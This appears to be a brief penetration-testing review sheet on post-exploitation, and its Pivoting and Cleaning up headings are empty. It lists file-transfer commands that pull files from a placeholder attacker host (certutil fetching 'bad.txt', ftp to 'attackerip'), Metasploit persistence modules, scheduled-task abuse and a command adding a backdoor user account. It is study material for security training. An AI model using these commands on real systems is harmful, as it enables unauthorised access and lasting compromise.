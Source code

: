 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### Pivoting

### Cleaning up


